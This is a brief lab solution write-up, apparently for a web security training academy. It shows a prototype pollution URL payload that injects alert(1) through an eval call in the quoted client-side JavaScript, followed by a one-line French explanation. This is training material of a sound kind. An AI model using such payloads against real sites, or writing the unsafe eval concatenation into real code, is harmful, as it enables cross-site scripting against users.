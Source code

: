 # Lab

https://0ab200a404aef13381d1ccf800a500ce.web-security-academy.net/

## Solution

`https://0ab200a404aef13381d1ccf800a500ce.web-security-academy.net/?__proto__.sequence=%27%27);alert%281%29;}//`

```js
async function logQuery(url, params) {
    try {
        await fetch(url, {method: "post", keepalive: true, body: JSON.stringify(params)});
    } catch(e) {
        console.error("Failed storing query");
    }
}

async function searchLogger() {
    window.macros = {};
    window.manager = {params: $.parseParams(new URL(location)), macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property]
        }};
    let a = manager.sequence || 1;
    manager.sequence = a + 1;

    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');

    if(manager.params && manager.params.search) {
        await logQuery('/logger', manager.params);
    }
}

window.addEventListener("load", searchLogger);
```

La pollution du prototype permet d'ajouter une propriété `sequence` à `manager` et d'évaluer l'expression